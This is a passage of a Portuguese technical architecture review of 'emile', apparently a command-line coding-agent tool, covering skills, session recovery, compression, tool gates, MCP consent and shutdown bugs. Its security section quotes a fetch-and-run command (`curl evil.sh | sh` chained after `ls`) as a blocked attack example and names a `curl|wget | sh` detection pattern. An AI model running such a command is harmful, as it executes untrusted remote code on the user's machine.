`reasoningEffort`, `both`) para servidores OpenAI-compatíveis que não seguem a convenção do catálogo.

---

## 9. Skills: como funciona hoje e o que falta

### 9.1 O caminho atual — `skills.js` (e um bug)

`loadAllSkills()` escaneia **um único diretório**:

```js
// skills.js:51
const skillsDir = path.join(config.workspaceDir, '.agent', '.agents', '.skills', 'skills');
```

⚠️ Este caminho é composto — `<workspace>/.agent/.agents/.skills/skills` — e quase certamente **não é o que se pretendia**. A documentação do próprio repositório (`architecture.md` § 2, linha de `skills.js`; `README.md:178` "Skills are YAML-frontmatter markdown files in `.agent/skills/`") descreve skills em `.agent/skills/`. O efeito prático: **skills locais nunca são carregadas** (o `fs.existsSync` da linha 54 retorna false e o loop nem começa), e `/skills` vazio. Este é o primeiro fix da frente de skills: confirmar a intenção (`.agent/skills`) e corrigir a composição para `path.join(workspaceDir, '.agent', 'skills')` — ou adicionar as variantes como lista multi-root, item da proposta abaixo.

⚠️ **E o fix do caminho é necessário, mas não suficiente:** `.gitignore:139-142` exclui do versionamento exatamente `.agent/`, `.agents/` **e `.clinerules`**. Um clone novo do repo **não traz nenhum arquivo de skill** (a pasta `.agent/` não é commitada, e não existe no checkout atual — probe direto devolve "não existe"), enquanto o README promete "The project ships with 40+ built-in skills (o que não existe de fato, poís as skills atuais são por parte de usuário, onde tais não são comitadas no repo)" (`README.md:34,180`). Ou seja: mesmo com o caminho corrigido, a origem de skills tem que ser outra — ou vendorizar um conjunto no repo (revisar o gitignore com decisão consciente), ou ancorar no design multi-root global/por-usuário da seção 9.3, que é exatamente o que o pedido pede. Nota colateral da mesma linha do gitignore: o arquivo de regras de trabalho obrigatórias (`.clinerules`/`AGENTS.md`, symlink) também não é versionado — a "fonte de verdade" do processo do projeto existe só em máquina local.

O resto do pipeline está saudável e é aproveitado na extensão:

- **Formato**: `SKILL.md` com frontmatter YAML (`---`…`---`, `parseSkillFile`, `skills.js:12-44`); campos: `name` (default = nome da pasta), `description`, `keywords[]`; corpo markdown vira instrução.
- **Detecção do workspace** (`detectWorkspaceSkills`, linhas 93-145): heurística por deps de `package.json` + arquivos-âncora (`schema.prisma`, `Dockerfile`, `requirements.txt`…); sempre inclui `clean-code`.
- **Relevância** (`filterSkillsByRelevance`, linhas 162-180): modo auto filtra por overlap de tokens (≥ 3 chars) entre prompt e nome/descrição da skill; lista explícita via `-s a,b` bypassa (authoritative).
- **Compilação para o system prompt** (`compileSkills`, linhas 187-235): bloco `=== ACTIVE WORKSPACE SKILLS ===` com caps **8 000 chars/skill, 24 000 total** (IMPROVEMENTS § 7.6) e truncamento explícito — importante porque skills entram no **prefixo congelado** (princípio 1, seção 2).

### 9.2 A lacuna que o pedido aponta

Hoje skills são **exclusivamente locais** (e, com o bug, efetivamente nenhuma). Harnesses concorrentes e o próprio ecossistema ZCode/Claude usam múltiplos roots: `~/.claude/skills`, `~/.agents/skills`, `~/.zcode/skills`, e por projeto `.claude/skills`, `.agent/skills`, `.zcode/skills`. Não há **nenhum** scan global — uma skill instalada uma vez na máquina deveria valer para todos os workspaces.

### 9.3 Proposta de extensão — multi-root com precedência

**9.3.1 Lista de roots (ordem = precedência; primeiro com o nome vence, shadow registrado em aviso no `/skills`):**

```
1. <workspace>/.emile/skills        # nativo emile, override por projeto
2. <workspace>/.agent/skills        # o que a doc atual já promete
3. <workspace>/.claude/skills       # compat com Claude Code
4. <workspace>/.zcode/skills        # compat com ZCode
5. ~/.emile/skills                  # global nativo (novidade)
6. ~/.agents/skills                 # padrão cross-harness emergente (também global nativo, padrão usado por quase todas harness)
7. ~/.claude/skills                 # global do ecossistema maior
8. (config) skillsDirs[]            # roots extras do usuário
```

- **Config `skillsDirs`** (array em `~/.emile/config.json` + flag `--skills-dir <path>` repetível) permite registar qualquer diretório (monorepos com `shared/skills`, por exemplo) sem esperar por convenção.
- **Varredura recursiva com um nível de namespaces**: além de `<root>/<skill>/SKILL.md` (formato atual), aceitar `<root>/.agents/<skill>/SKILL.md` (formato padrão adotado em todos os tipo de harness para skill em escopos globais de projeto) além de também skill por projeto no diretorio local, como por exemplo `C:\Users\mc33p\Documents\GitHub\emile-cli\` (Diretorio raiz do projeto = `\emile-cli\`).
- **Cache por root com `mtime`** (precedente: `rules.js:28, 71-79` cacheia por mtime do arquivo) — skills são lidas a cada `buildSystemPrompt` e a cada `/skills`; readdir+parse de ~30 skills não é caro, mas o cache torna a leitura do prefixo congelado previsível.
- **Global skills e a Regra de cache**: skills entram no prefixo do system prompt; uma skill global nova no meio de uma sessão **não deve** invalidar o cache silenciosamente. A chave de cache atual (`agent.js:225`) é `(plansMode, relevantSkills)` — como `relevantSkills` deriva do catálogo, a adição de um root só muda o prompt no próximo turno em que a skill for relevante, o que já é o comportamento certo do design; manter a invariância e registrar no código.

**9.3.2 Pontos de integração exatos:**

| Mudança | Onde | Natureza |
|---|---|---|
| Fix do caminho composto | `skills.js:51` | bug fix |
| `listSkillRoots()` novo (ordem acima + `config.skillsDirs`) | `skills.js` topo | ~40 linhas |
| `loadAllSkills()` itera roots, dedupe por nome | `skills.js:50-74` | refator leve |
| `config.skillsDirs` + flag `--skills-dir` | `config.js:92-117` + `cli.js:25-41` | config plumbing |
| `/skills` mostra origem (global/local) e shadows | `commands/handlers.js:409-419` + `printSkillsInfo` | UX |

**9.3.3 Fora de escopo (mencionar ao decidir):** skill como slash command (`/nome-da-skill` executando instruções), marketplace/install. O registry atual de comandos (`commands/index.js:23-46`) é de nome exato — um comando dinâmico por skill exige ADR (Regra 2).

---

## 10. Persistência, checkpoint e recuperação

- **Formato real**: `<workspace>/.emile/history/<sessionId>.json` — um arquivo JSON por sessão, com `{ id, summary, createdAt, updatedAt, messages, status, sessionCwd }` e `pendingToolCalls` quando `status === 'tool_pending'` (`history.js:8, 79-118`). ⚠️ A linha de `recovery.js` na tabela de módulos do `architecture.md` § 2 fala em `.emile/sessions/<id>/corrupt/` — **não existe**; o caminho real de quarentena é `.emile/history/corrupt/<id>/<ts>.json` (`history.js:241-253`). A Regra 0 acusa de novo (a doc canônica diverge do caminho real).
- **Checkpoint antes/depois de cada ferramenta** (`agent.js:670-673, 723-726`): crash no meio de um `runCommand` longo não perde o turno — o load detecta `tool_pending` e `resumePendingTools()` (`agent.js:152-192`) reexecuta apenas tool calls **sem resultado persistido**, validando o shape (`isValidPendingToolCall`), e um checkpoint corrompido devolve `{resumed:false, invalid:true}` → a sessão é marcada complete sem executar nada (fail-closed).
- **Estados que existem**: `tool_pending` (checkpoint pré/pós-tool) e `complete` (fim de turno). Dois estados são **vocabulário morto**: `'pending'` (o boot scan e `listPending` filtram por ele — `recovery.js:95`, `history.js:260 — mas a gravação é sempre `tool_pending | complete`, `history.js:82`, então o scanner nunca encontra nada) e `'aborted'` (`markAborted` existe e é injetado no coordinator, `cli.js:169`, `history.js:223-235`, mas **nenhuma fase o chama** — ver § 18). Detalhe em § 18.
- **Teto de tamanho** (`config.maxSessionSize`, default 10 MB): ao estourar, `trimPersistedMessages` degrada resultados de tool antigos para `[truncated]` numa **cópia** (`history.js:52-67`), nunca na história viva. `reasoning_content` é removido da projeção persistida (`preparePersistedMessages`, `history.js:22-44`), assim como argumentos/resultados das ferramentas de memória (`'{"omitted":true}'`, linha 36, 40). `sessionCwd` é revalidado no load contra o workspace (`normalizeWorkspaceCwd`, linha 91).
- **Summary periódico** (`agent/session-summary.js`): título no `/sessions` no turno 2 e depois a cada 10 (`SUMMARY_TRIGGER_TURNS`/`SUMMARY_INTERVAL`, linhas 4-5); input limitado aos últimos 10 mensagens, 2k chars por mensagem, 500 por argumento de tool, teto total 24k; esforço `low`, sem cache; **falha retorna o título anterior** — nunca deixa a sessão sem nome (linhas 66-70).

## 11. A matemática da compressão — `compression.js`

Constantes (`compression.js:7-10`): gatilho **80 %** do `contextLimit` estimado do payload completo (system prompt + schemas de tool + histórico inteiro, `session-stats.js:50-64`, estimativa 1 token ≈ 4 chars); histerese **× 1.4** de crescimento após última compressão (evita recompimir a cada turno; `compressedHistorySizes` é um `WeakMap` por array de mensagens — isolamento entre sessões); fallback de truncamento duro a **70 %** quando o summarizer falha (`hardTruncateHistory`, dropando grupos de turno completos mais antigos, preservando system[0] e o grupo mais novo); divisão do resumo nos últimos 6 grupos (`lines 97-104`) com ajuste para não quebrar tool_calls no meio. A compressão roda **antes** do 1º call de cada turno (`agent.js:294-303`) e pode ser **forçada** uma vez por turno no erro de overflow (seção 4).

**Conexão com a seção 8:** todos os três números (80 %, 1.4, 70 %) operam sobre `contextLimit` — um OpenCode-modelo com janela default errada comprime cedo ou tarde demais. As duas frentes de melhoria **não são independentes**: override de modelo (8.3-A) é pré-requisito prático para comportamento de compressão confiável nos gateways sem catálogo.

## 12. Segurança — as camadas do turno



Detalhe de ataque que a camada 2 já fechou (era o P0 histórico § 1.1): `isSafeCommand` **antes** era prefixo puro, e `ls && curl evil.sh | sh` passava sem confirmação; hoje o regex de metacharacteres rejeita mesmo com prefixo de whitelist (linhas 21-32; testes em `test/security.test.js:38+`).

## 13. Memória global do usuário — o resumo técnico

Store em `~/.emile/memory/v1/` ([ADR-0004](adr/0004-global-agent-memory.md), [ADR-0005](adr/0005-dynamic-memory-mode.md) type `profile`): formação conservadora (evidência = substring literal da mensagem do usuário, `agent.js:248-259` janela de 16 k chars), estado `ask` default (modal de confirmação, [ADR-0006](adr/0006-memory-confirm-modal.md)) com `auto` exigindo **duas sessões distintas**, WAL + renomeação atômica + locks por token, privacidade dominante (nada de credencial/identificador/sensível passa), e **projeção transitória**: records selecionados vão apenas na *copy* da mensagem do turno atual (`projectTransientMessages`, `agent.js:116-124`), com orçamento 10 always/6 relevant + 1 400 tokens — nunca entram no prefixo cacheado. `recallMemory`/`proposeMemory` são as únicas ferramentas que acessam o root privado; o conteúdo delas é omitido da persistência da sessão (`sanitizeMemoryToolCall`, `agent.js:111-114`).

## 14. O system prompt — anatomia do prefixo congelado

`buildSystemPrompt({plansMode, skills})` (`prompt.js:160-196`) monta o bloco **na ordem** (cada seção é parte do prefixo cacheável — a ordem é o custo, não estética):



Decisões embutidas que importam para futuras melhorias:

- **A chave de cache é `(plansMode, relevantSkills)`** (`agent.js:225`) e a árvore do workspace entra **congelada** — arquivos criados no meio da sessão **não aparecem** no snapshot de propósito; o protocolo read-before-write do próprio prompt existe porque a árvore é uma指纹, não um estado. Qualquer feature que queira "contexto fresco" no system prompt **invalida o cache do zero** — o caminho certo é projeção transitória no turno (precedente: memória, § 13).
- **A política de precedência de autoridade vive no prompt**: pedido atual > regras do projeto > memória confirmada > inferência (`prompt.js:39-43`). O modelo é o enforcement point das linhas 40-43 (memória não aprova ferramenta nem desliga gate) — é convenção, não código; as camadas duras estão em § 12.
- **Regras vs skills**: regras são always-on e competem com tudo; skills são filtradas por relevância por turno (`filterSkillsByRelevance`) com lista explícita autoritativa. A distinção é deliberada (`rules.js` header: "always-on, unlike skills which are keyword-triggered").
- **Melhorias candidatas**: (a) o bloco WORKSPACE CONTEXT pode ficar obsoleto silenciosamente (snapshot congelado) — um aviso discreto quando o agente cria/deleta raiz de diretório de primeiro nível evitaria o "o modelo acha que o repo é outro"; (b) `compileWorkspaceContext` roda readdir síncrono profundo em todo `buildSystemPrompt` — em monorepos grandes é o único ponto do boot com I/O proporcional ao repo (cap 150 ajuda, a recursão não: `buildTree` para em `maxItems` mas desce até depth 3 por pasta antes de contar).

## 15. Ferramentas — as 9 nativas, os gates por handler e o error-as-data

A superfície é o registro `toolHandlers` (`tools/handlers/index.js:11-21`) sobre os schemas OpenAI de `definitions.js:3-144`: `readFile · writeFile · editFile · listDir · findFiles · grepSearch · runCommand · proposeMemory · recallMemory`. Composição por turno (`agent.js:276-285`): as duas ferramentas de memória **só existem quando há `memorySessionId`** — sessão de teste/embed sem memória não vê os schemas; MCP entra namespaceado; web entra condicional (§ 17).

**Padrão dominante — error-as-data**: nenhum handler lança para o loop; `executeToolWithSignal` embrulha tudo em `Error executing tool: ${err.message}` string (`agent.js:90-109`) e cada handler devolve erros como texto ("Error: File not found…"). A falha de ferramenta é **observação** para o modelo, nunca crash do turno — o mesmo vale para MCP (`mcp.js:384`).

Por handler, os gates e limites que uma melhoria não pode afrouxar:

- **`readFile`**: `resolveSafePath` → cache de leitura (`fileCache`, limpo a cada turno — `agent.js:215`) → fatia com `startLine/endLine` numerada → teto de **2 000 linhas** com aviso ensinando o modelo a reler por faixas (`read-file.js:39-47`). O teto é universal (não só pago — IMPROVEMENTS § 3.4 evoluiu para isso).
- **`editFile`** (`edit-file.js`): matching em **3 níveis** — exato → normalizado CRLF → linha-a-linha ignorando trailing whitespace — com **rejeição de ambiguidade em cada nível** (`ambiguousError`, linhas 30-31, 41-43, 51-53, 77-79): se o alvo aparece 2× em qualquer nível, o edit é recusado com instrução de contexto maior (era o P0 § 1.4 — replace silencioso da 1ª ocorrência). Antes de gravar: `pushUndo({path, content})` (dry-run não empilha, linha 97-99); cache invalidado (94); diff sempre mostrado (`showDiff`, 113) — dry-run mostra o diff sem tocar o disco (102-105).
- **`runCommand`** (`run-command.js`): dry-run intercepta antes de qualquer execução (45-48); safe mode confirma, com **warning específico de network-pipe** (`curl|wget … | sh` — regex linha 9, mensagem dedicada 54-56, o vetor de prompt-injection clássico); **probe de cwd** injetado pós-comando (marker com pid+timestamp, sintaxe distinta win32/POSIX, linhas 25-30) — `sessionCwd` só persiste se o resultado **continha no workspace** (`normalizeWorkspaceCwd`, 80-86; fora disso → aviso "working directory unchanged"); timeout 30s (`config.commandTimeout`) com mensagem de killed; saída limitada a **50 000 chars** com aviso que orienta grep/head/tail (92-98); rodapé `[working directory: <rel>]` sempre.
- **`undoStack`**: limite duro 50 (`file-state.js:8, 15-18`); `/undo N` restaura newest-first com confirmação (architecture.md § invariante 6).

**Limitação identificada (backlog)**: o `AbortSignal` do turn control é entregue ao handler via context (`agent.js:706`) mas **`runCommand` o ignora** — o destructure é `{ command }` (linha 43) e `exec` não recebe o signal: um `npm build` de 30s continua após Esc/Ctrl+C (só o timeout limita). MCP idem: `handleMcpToolCall` não aceita signal (comentário honesto em `agent.js:96-98`). Cancelamento "gracioso" é, hoje, gracioso só no plano do loop.

## 16. MCP — transports, consentimento fail-closed, namespace e reconexão



Os pontos que merecem parada:

- **Consentimento é fail-closed em três níveis**: servidor novo exige `confirm` interativo (initialValue false) com preview sanitizado (transport + endpoint sem query/credencial + ferramentas, `describeMcpServer` 135-145, `safeUrlForPrompt` 126-133); **sem stdin TTY não conecta** (174-177) — nunca assume "yes"; a aprovação persiste **por nome de servidor** em `.emile/mcp-consent.json` (66-75) e só o nome é gravado. A reconexão pós-morte **pula** o consentimento (requireConsent false, 255) — a aprovação é pela primeira aparição do servidor, não por conexão.
- **Headers com interpolação `${ENV_NAME}` são a borda de credencial**: nome de header validado contra charset RFC, valor expandido do ambiente com **erro se a env var não existe** (fail-closed, 99-103), newline em header rejeitado (105-107) — header injection bloqueada (IMPROVEMENTS § 5.4).
- **Reconexão bounded**: `onclose` → remove ferramentas do map + tenta 500ms/1s/2s (`MCP_RECONNECT_DELAYS`, linha 23; `scheduleReconnect` 248-266 com lock por servidor); esgotou → degrade com aviso; `shutdownMcp` (305-318) marca `shuttingDown`, limpa timers e fecha todos — o retry nunca briga com o shutdown.
- **Namespacing por Map explícito** (14-17, 191-195): `mcp__<server>__<tool>`… na verdade o prefixo real é `${serverName}__${tool.name}` (`getMcpToolDefinitions` 332; a doc `architecture.md` menciona `mcp__` — ⚠️ mais uma Regra 0: o código prefixa só o **nome do servidor**, sem o marcador `mcp__`; o UI resolve pelo último `__` — `tool-lines.js:53-59`, IMPROVEMENTS § 5.2/6.3).
- **O lado confiável do contrato é o servidor**: o schema do provider passa direto sem validação em emile (335 — `tool.inputSchema` vai para o modelo como está); argumentos vindos do modelo chegam crus ao `callTool`. Para ferramentas de terceiros, a validação de domínios de argumento **é do servidor** — o consentimento e o env allowlist são as defesas de emile.
- **Perdas funcionais conhecidas**: imagem de MCP vira placeholder `[Image output: base64 data]` com os dados descartados (376-378); capacidades do client ficam `{capabilities:{}}` (220-221) — sem sampling/roots/Elicitation; sem timeout no `callTool` (ver backlog § 15).

## 17. Web — dois modos, schemas condicionais e a fronteira do conteúdo não-confiável

Duas implementações coexistem atrás do mesmo toggle `config.webSearch`, discriminadas por `config.webSearchMode` (`.emile/web.json`):

- **`native`** = server tool do OpenRouter: `{ type: 'openrouter:web_search', parameters: {...} }` composto **só para openrouter** (`provider-tools.js:18-21` — enviar tipo desconhecido a outro endpoint é rejeição garantida); max 5 / 15 resultados.
- **`enhanced`** = ferramentas locais `searchWeb` (Tavily) e `browsePage` (Firecrawl) com schemas próprios (`web/definitions.js:3-51`): **o schema só entra na request quando `enabled === true && apiKey` existe** (42-50) — o modelo nunca vê uma ferramenta que não pode executar; descrição marca "billable".

A fronteira de confiança tem **três camadas de código**: (1) as descrições e a política do prompt (`prompt.js:31-35` — web content é reference data, screenshot ≠ análise sem anexo, nada de credencial em query/URL); (2) primitivos de segurança exportados pelo barrel (`web/index.js:10-17`: `validatePublicWebUrl`, `isPublicIpAddress`, `normalizeHttpUrl`, `MAX_WEB_QUERY_CHARS`, `boundedRemoteText` — query/URL/texto limitados antes de sair); (3) o transporte do screenshot: attachments viram **uma** mensagem transitória com cabeçalho `UNTRUSTED EXTERNAL WEB SCREENSHOT`, só se `modelSupportsImages` (`agent.js:76-88`), fatiada a 3 imagens, **nunca persistida** — os URLs curtos de screenshot valem exatamente uma request (linhas 361-373, 384-385).

Melhorias candidatas: custo de web não aparece em `/cost` (a tabela de preços é por token; a cobrança de search Firecrawl/Tavily/OpenRouter é invisível na estimativa); `/websearch` exige provider openrouter no modo native (bom) mas nada avisa quando o provider **troca** (via futuro `/provider`, § 8.4) e o modo native fica morto em silêncio.

## 18. Ciclo de vida — o shutdown de 6 fases com orçamento, e o scan de recuperação que nunca dispara

`installShutdownHandlers` (`lifecycle/index.js:53-112`) trata SIGINT/SIGTERM/SIGHUP (102-104) mais `process.on('exit')` que **sempre** restaura o terminal — reset ANSI, cursor visível, bracketed-paste off (108-111, o path que bypassa o coordinator). O coordinator: **guard de re-entrância** (primeiro sinal vence, 39-43), fases sequenciais definidas no import do array (23-30): `stop-input → drain-tools → flush-session → flush-memory → close-mcp → restore-terminal`, cada uma com `Promise.race` contra seu `sliceMs` (75-78) — **erro de fase é não-fatal** (80-84); o "budget global 3 s" é declarado no comentário de cabeçalho e em `architecture.md` § 2, com enforcement real **por fase**: os slices medidos são 50/1 500/300 ms nas três primeiras (`stop-input.js:12`, `drain-tools.js:16`, `flush-session.js:15` — a janela de espera do drain na prática é 1 200 ms + 200 ms de propagação, `drain-tools.js:26, 46`); o exit code segue o sinal (130/143/1, linha 99). O tool ativo é registrado via `setActiveTool` (`agent.js:702`, `stop-input.js:44-51`) e o `drain-tools` aguarda/aborta. `flushSync` de session é um **no-op documentado** — `saveSession` já é síncrono; o placeholder existe para marcar o ponto de flush (213-217, `history.js`).

⚠️ **Achado — o lease de stdin nunca é devolvido no shutdown (bug real).** `installShutdownHandlers` injeta `setPromptShutdown(() => { /* deferred, no-op */ })` (`index.js:55-58`): o comentário diz que o prompt cuida do próprio cleanup quando `isShuttingDown()` é true — mas `isShuttingDown` só é exportado (`index.js:118`; o próprio `stop-input.js:71` afirma que "cli.js o verifica antes de começar um turno", e o import de `cli.js:58` traz apenas `installShutdownHandlers`). Na prática, SIGINT durante o **idle** (o caso mais comum de Ctrl+C) derruba o processo com o terminal em raw mode e bracketed-paste ligado, confiando só no `process.on('exit')` para desligar o paste mode e o cursor (110) — que não restaura o modo canônico do stdin (as fases foram desenhadas para o caminho de turno, não para o de espera). Teste-alvo: SIGINT no idle → `termios` volta ao default do shell.

**Achado (código morto — corrigir):** o boot scan de recuperação está **desligado por vocabulário**. `saveSession` só grava `tool_pending` ou `complete` (`history.js:82`); **nada** grava `'pending'`. Mas `runStartupRecovery` só classifica `record.status !== 'pending' → continue` (`recovery.js:95`) e `listPending` filtra `'pending'` (`history.js:260`) — os dois nunca encontram sessão, e o relatório verbose (`cli.js:150-156`) vive imprimindo `scanned N / 0 recoverable`. Pior: `cli.js:154` lê `recoveryReport.abandoned`, que **não existe** no `RecoveryReport` nem na classificação (`recovery.js` typedef 18-28 só tem recoverable/corrupt) — a doc da tabela de módulos promete a terceira classe. A recuperação **real** acontece no load (`resumeLoadedSession`, `cli.js:252-287`, via `getSessionRecord` + `status === 'tool_pending'`), que é o caminho que funciona hoje. E `markAborted` está **órfão**: injetado no coordinator (`cli.js:169`) mas nunca chamado por fase alguma — se vier a ser ligado, vai reescrever checkpoints `tool_pending` com `aborted` e **desabilitar** o resume (o load retorna cedo se `status !== 'tool_pending'`). Fix provável (decisão de projeto): (a) o scanner deveria filtrar `'tool_pending'` (e `listPending` idem) e reportar resumables na barra verbose, ou (b) o drain de shutdown deveria marcar com estado novo **sem** destruir o `tool_pending` — distinguindo "interrompi de propósito" de "morri no meio". Regra 0 marca também: os comentários de `recovery.js`/`cli.js` descrevem o comportamento `pending`/`abandoned` que nunca ocorre.

## 19. UI/UX — o design system Tokyo Night e o vocabulário de blocos

**Tokens primeiro** (`theme.js`): a paleta `C` é a única fonte de cor (12 tokens: `accent` #7AA2F7 · `purple` · `gold` (busca) · `muted` #565F89 · `ghost` #3B4261 (thinking colapsado) · `success` · `warn` · `info` · `red` · `fg` · `dim` · `bold`), true-color com helpers `rgb()`/`bgRgb()` (24-37); `GAP.{none,section,command}` padroniza o ritmo vertical (42-46 — "uma linha entre grupos, duas entre comandos"); `getW()` = cols−4 (52-55); `MAX_BOX_W = 120` e `BOX_INDENT = 4` (101-102); `stripAnsi`/`wrapText`/`fmtK`/`boxTopOpen`/`boxBottomOpen` são primitivos compartilhados (61-110). A lint rule do ADR-0002 mantém `agent/`, `api/`, `plans.js` fora de cores próprias — tudo consome `C.*`.

**O vocabulário visual de um turno** (na ordem de `docs/visual-identity.md`, que é o canônico):

| Bloco | Renderizador | Forma |
|---|---|---|
| comando do usuário | `user-message.js:22-42` (`printUserMessage`) | divisor `── texto ────` ("chapter marker" do turno, `GAP.section` único, truncado à largura) + reseta `turnState.toolsRun` |
| ferramentas executadas | `tool-lines.js:94-135` (`printToolSummary`) | grade sem box: `● label(8 cols fixas) args-dim`; **tom semântico por operação** — read=`info`, write/edit=`warn`, exec=`red`, find/grep/web=`gold`, MCP=`[mcp:server]` segmentado no último `__` (53-59); args sanitizados (`stripTerminalControls`) e quebrados com indent de continuação (103-114) |
| contagem do turno | `turnState.toolsRun` consumido em `response.js:45-50` | `↳ N tools` dim — o único status line do turno (substituiu o rodapé "✓ N completed") |
| thinking | `thinking.js` | colapsado: uma `ghost` linha `··· thought Ns` (quase invisível, heurística word-count/50); expandido: `✻ Thinking…` + texto muted — **o modo com o bug de redraw (§ 7)** |
| resposta | `response.js:31-83` (`printAssistantResponse`) | **open box**: só bordas `╭─ emile ─`/`╰──` (pass 3), pré-wrap antes do markdown (`63-71`) para o `renderMarkdown` nunca quebrar no meio, conteúdo em `BOX_INDENT` |
| barra de status | `status-bar.js:12-61` (`printSessionBar`) | `id \| model \| msgs \| ~tokens x/y (pct) \| cache % \| MCP n/m (tools)` — o **`~` marca valor estimado** (honestidade de contexto, spec model-system); mesma função serve de footer do prompt via `buildPromptFooterSegments` |
| spinner | `spinner.js:60-105` | braille 80ms, amber em "thinking…", **stop silencioso** (sem linha "done"), `RESPONSE_WAITING_LABEL` único texto aprovado enquanto o 1º chunk não chega |
| título da janela | `title.js` (`setTerminalActivity`, invariantes 7) | OSC `\x1B]0;…\x07` limitado a `MAX_TERMINAL_TITLE_LENGTH = 100` (title.js:4,43), activity-first `atividade · emile · repo · modelo` (31-40), `TERM=dumb`/não-TTY não escreve (46-48), **nunca** vaza prompt/args/queries — `describeToolActivity` traduz cada ferramenta para gerúndio seguro (82-109) |

**stdin é single-owner** (ADR-0003, § 6.2): idle → `persistentPromptInput`; turno → `listenTurnKeys` (raw mode + bracketed-paste, lease do `process.stdout.write`, queue de Enter, Tab = completar/alternar plans, Esc = limpar draft ou cancelar turno); pickers (`/switch`, `/model`, `/skills`) assumem exclusividade e devolvem — o dete/reatacha raw mode explicitamente ao redor de handlers async para dois consumidores nunca correrem (`prompt-input-persistent.js:21-25`). O render do prompt persistente obedece a **três regras duras** (header do arquivo, 6-19) que o tornam testável: cada linha é **clipada à largura antes do write** (nunca wrap → altura da tela = `lines.length`, a única premissa da matemática de erase); o layout vem de **uma função pura** (`buildPromptLayout`, exportada para `test/prompt-input-render.test.js` — um emulador ANSI mínimo dirigindo sequências reais de keypress); e o único estado entre renders é `lastTopOffset` ("apagar = subir N, limpar para baixo" — estado anterior errado não composto). `model-picker.js` é bounded incremental (`MODEL_PICKER_LIMIT`, `filterModelOptions`) — catálogo de 400+ modelos não renderiza tudo de uma vez.

**Dívida de UX aberta (roadmap Phase 1, checkboxes `[ ]`)**: tratamento visual dedicado de estados de erro (API/fallback/MCP) — hoje são linhas `C.warn/C.red` avulsas; `/cost` e stats fora do padrão de box; auditoria de largura estreita (<80 cols) de todos os componentes ainda pendente. Um alerta prático registrado no § 6.2: o lease repainta o prompt **em todo write** do agente — streams longos de thinking multiplicam repaints (aceitável hoje; com o fix append-only do § 7.4 vira um caso a medir).

## 20. Índice de padrões e termos técnicos

| Padrão | Onde | O que resolve |
|---|---|---|
| **Incremental dedup (prefix-snapshot safe)** | `reasoning.js:24-39` | gateways que enviam cumulativos em vez de deltas |
| **Single-source reasoning display** | `agent.js:432-512` | provider que expõe o mesmo thought em dois canais |
| **Retry antes do 1º chunk, nunca depois** | `client.js:202-240` | replay parcial duplicaria output renderizado |
| **Lease temporário de stdout (ADR-0003)** | `turn-keys.js:118-303` | prompt vivo sem framework TUI; writes atômicos são contrato |
| **Cursor-up frame redraw** | `prompt-input-persistent.js:402,449` (via `writeCursorUp`, clampado a `rows-1`, sem emissão em não-TTY), `thinking.js:79-127` | render de bloco mutável — **no prompt persistente o defect de viewport foi corrigido 2026-10-09 (§ 22.2); em `thinking.js` (§ 7.2) e `turn-keys.js:73,78,91` o cursor-up segue sem clamp — P0-1** |
| **3-layer model metadata** | `models.js:58-77` | catálogo vivo > tabela estática > default |
| **Histerese de compressão (× 1.4)** | `compression.js:8, 83-89` | comprimir de novo por turno quando não mudou nada |
| **Forced compression em overflow** | `agent.js:400-415` | erro de tamanho ≠ erro genérico retryável |
| **Tool-call checkpoint at-least-once + resume idempotente** | `agent.js:670-727, 152-192` | crash no meio de ferramentas sem duplicar efeito |
| **Error-as-data nos handlers** | `tools/handlers/*`, `agent.js:90-109` | falha de ferramenta é observação do modelo, nunca crash do turno |
| **Ambiguous-match rejection em 3 níveis** | `edit-file.js:39-87` | edit silencioso no lugar errado |
| **Probe de cwd com marker pid+ts** | `run-command.js:25-41, 68-86` | `cd` persistente sem escapar do sandbox |
| **Undo-before-write** | `edit-file.js:97-99`, `file-state.js:15-18` (cap 50) | rollback de arquivo sempre disponível, bounded |
| **MCP consent fail-closed** | `mcp.js:172-183, 213-215` | servidor de terceiro não conecta sem aprovação; no-TTY não conecta |
| **Shutdown em fases com slice e re-entrância** | `lifecycle/index.js:23-99` | terminal restaurado e dados flushados em toda saída, orçamento limitado |
| **Semantic tone grid + `~` honesty** | `tool-lines.js:27-31`, `status-bar.js:20-31` | leitura instantânea de impacto; estimado ≠ medido |
| **Bounded incremental picker** | `model-picker.js`, `skills-picker.js` | catálogo 400+ sem render total nem flood de keystroke |
| **Transient projection (memória)** | `agent.js:116-124` | memória fora do prefixo cacheável, por turno |
| **Cache-stable frozen prefix** | `agent.js:225-230` | prompt caching de ponta a ponta |
| **Capability root (paths)** | `security.js:40-85` | sandbox por realpath, sem trust no argumento do modelo |

## 21. Estado da implementação e backlog técnico

O que **existe e funciona** (verificado em código, seção por seção acima): os 4 gateways com client único; loop de agente com fallback/compressão/checkpoint; memória global com ADR-0005/0006; MCP STDIO/SSE/HTTP com consentimento e allowlist de env; TUI com lease de prompt e design system Tokyo Night; pipeline de dados de streaming deduplicado; sistema de regras com precedência documentada e cache por mtime; web search em dois modos com fronteira de conteúdo não-confiável; shutdown ordenado em 6 fases. As seções 14–19 mapeiam exatamente essas superfícies — são as "outras partes interessantes" que uma melhoria futura precisa conhecer antes de mexer.

**Backlog priorizado para as frentes pedidas:**

| # | Item | Esforço | Risco | Ref |
|---|---|---|---|---|
| **P0-1** | **Streaming expandido append-only** (pensamento não duplica em viewport pequeno/pipe) + teste contando ocorrências | S | UI-only | § 7.4 |
| **P0-2** | ✅ **aplicado 2026-10-09** (caminho + vendorização; multi-root continua em P1-5): `skills.js:51` → `.agent/skills`, `.agent/skills/clean-code/SKILL.md` vendida no repo, `.gitignore` para de excluir `.agent/`, `test/skills-load.test.js` — specs/2026-10-08-skills-path-fix/. Original:  **Fix do caminho de skills + origem real das skills**: corrigir `skills.js:51` → `.agent/skills` **e** decidir onde as skills passam a viver — vendorizar no repo (revisar `.gitignore:139-142`) ou ancorar nos roots globais do § 9.3; hoje um clone novo tem zero skills apesar do README prometer 40+ | S | Regra 0 (README × código × gitignore) | § 9.1 |
| **P0-3** | **Consertar o ciclo de vida de recuperação/shutdown**: (a) scanner de boot e `listPending` filtram `'pending'`, estado que ninguém grava (só `tool_pending` existe, `history.js:82`) → scan nunca dispara; `cli.js:154` lê `recoveryReport.abandoned` inexistente; `markAborted` órfão que, se ligado, destrói o `tool_pending` e o resume; (b) fase 1 do shutdown não devolve o raw mode/lease de stdin no idle (setPromptShutdown é no-op, `index.js:55-58`). Ver § 18 | M | dados de recuperação + estado do terminal | § 10, § 18 |
